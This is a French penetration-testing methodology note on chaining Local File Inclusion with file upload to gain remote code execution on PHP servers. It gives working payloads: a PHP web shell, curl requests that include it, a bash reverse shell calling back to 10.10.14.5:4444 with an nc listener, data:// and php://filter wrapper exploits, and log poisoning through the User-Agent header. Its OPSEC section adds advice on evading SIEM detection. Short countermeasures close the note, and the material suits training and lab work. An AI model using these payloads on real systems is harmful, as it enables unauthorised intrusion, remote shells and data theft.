

## Contexte et Théorie

La **Local File Inclusion (LFI)** survient lorsqu'une application web utilise des entrées utilisateur non assainies pour construire un chemin de fichier passé à une fonction de lecture (ex: `include()`, `require()`, `file_get_contents()` en PHP). Lorsqu'une vulnérabilité de **File Upload** est présente simultanément, l'attaquant peut uploader un fichier malveillant (ex: shell web) et utiliser la LFI pour exécuter ce fichier sur le serveur, menant à une **Remote Code Execution (RCE)**.

> [!info]
> La RCE via LFI est possible si le serveur interprète le fichier inclus comme du code (ex: `.php`) ou si l'on utilise des wrappers PHP (`php://filter`, `data://`, `expect://`).

## Flux d'attaque



## Prérequis et Identification

Pour réussir l'exploitation, il est nécessaire d'identifier :
1. Le point d'injection LFI (paramètre GET/POST).
2. Le répertoire de stockage des fichiers uploadés.
3. La capacité à uploader un fichier avec une extension autorisée ou contourner les filtres (Blacklist/Whitelist).

> [!danger]
> L'upload de fichiers `.php` est souvent bloqué par des filtres côté serveur (MIME type, extension). L'utilisation de techniques de bypass (double extension, null byte, changement de MIME type) est souvent requise.

## Méthodologie d'exploitation

### 1. Identification du chemin d'upload
Si le chemin est inconnu, tester les répertoires standards :
- `/uploads/`
- `/files/`
- `/assets/`
- `/images/`

### 2. Upload du Payload
Créer un shell web minimaliste :
```php
<?php system($_GET['cmd']); ?>
```

Si l'extension `.php` est bloquée, tenter des variantes selon la configuration du serveur (Apache/Nginx) :
- `.php5`, `.phtml`, `.phar`
- `.php.jpg` (si le serveur est mal configuré)

### 3. Exploitation via LFI
Une fois le fichier uploadé, inclure le fichier via le paramètre vulnérable :

```bash
# Exemple d'appel via curl
curl -s "http://target.com/index.php?page=./uploads/shell.php&cmd=id"
```

**Sortie attendue :**
```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 4. Reverse Shell
Pour une interaction stable, utiliser un reverse shell plutôt qu'une exécution de commande simple :

```bash
# Payload dans le fichier uploadé
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"); ?>
```

Écouteur sur la machine attaquante :
```bash
nc -lvnp 4444
```

## Techniques avancées

### Utilisation des Wrappers PHP
Si l'upload est impossible, les wrappers peuvent permettre la RCE :

*   **data://** : Permet d'injecter du code PHP directement via l'URL.
    ```bash
    curl "http://target.com/index.php?page=data://text/plain,<?php%20system('id');%20?>"
    ```

*   **php://filter** : Utile pour lire le code source et identifier des secrets ou des configurations d'upload.
    ```bash
    curl "http://target.com/index.php?page=php://filter/convert.base64-encode/resource=upload.php"
    ```

> [!warning]
> `allow_url_include` doit être activé dans `php.ini` pour que les wrappers `data://` et `input://` fonctionnent.

### Log Poisoning
Si l'upload est strictement contrôlé, injecter du code dans les logs du serveur (Apache/Nginx) via l'User-Agent, puis inclure le fichier de log :

```bash
# Injection via User-Agent
curl -A "<?php system($_GET['cmd']); ?>" http://target.com/
# Inclusion du log
curl "http://target.com/index.php?page=/var/log/apache2/access.log&cmd=id"
```

## Contre-mesures et OPSEC

### Contre-mesures
- **Validation stricte** : Utiliser une liste blanche d'extensions et vérifier le contenu réel du fichier (Magic Bytes).
- **Stockage hors racine web** : Stocker les fichiers uploadés dans un répertoire non accessible par le serveur web.
- **Désactivation de l'exécution** : Configurer le serveur pour désactiver l'exécution de scripts dans le répertoire d'upload via `.htaccess` ou la configuration Nginx.
- **Principe du moindre privilège** : L'utilisateur du service web ne doit pas avoir les droits d'écriture sur les répertoires de code source.

### OPSEC
- **Nettoyage** : Supprimer systématiquement les shells uploadés après l'exercice.
- **Discrétion** : Éviter les scans de répertoires bruyants (ffuf/dirbuster) si un WAF est présent. Privilégier l'analyse manuelle du code source si accessible.
- **Logs** : L'exploitation de LFI génère des logs massifs. Utiliser des techniques d'encodage pour minimiser la détection par les SIEM.

> [!tip]
> Toujours vérifier si le fichier uploadé est renommé par le serveur (ex: `md5(filename).ext`). Si c'est le cas, il est nécessaire de trouver le nom généré via une énumération ou une lecture de base de données.